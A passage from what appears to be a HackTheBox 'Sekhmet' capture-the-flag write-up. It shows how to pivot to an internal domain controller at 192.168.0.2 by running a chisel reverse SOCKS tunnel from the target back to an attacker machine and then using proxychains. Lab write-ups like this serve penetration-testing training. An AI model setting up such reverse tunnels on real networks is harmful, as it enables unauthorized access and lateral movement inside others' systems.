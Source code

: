 From here, we can see some ports that are open.

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/30.png"  >

It's now confirmed that the genuine DC is located at 192.168.0.2 To proceed with the enumeration process, we'll have to utilize <a href="https://github.com/jpillora/chisel" target="_blank"> chisel</a> and proxychains to route traffic towards that address.

```bash
# on attacker machine
./chisel server --port 1337 --reverse

# on target machine
./chisel client --max-retry-count=1 10.10.14.149:1337 R:1080:socks
```

Enumerating the DC with proxychains works fine later on:

```bash
proxychains curl http://192.168.0.2
```
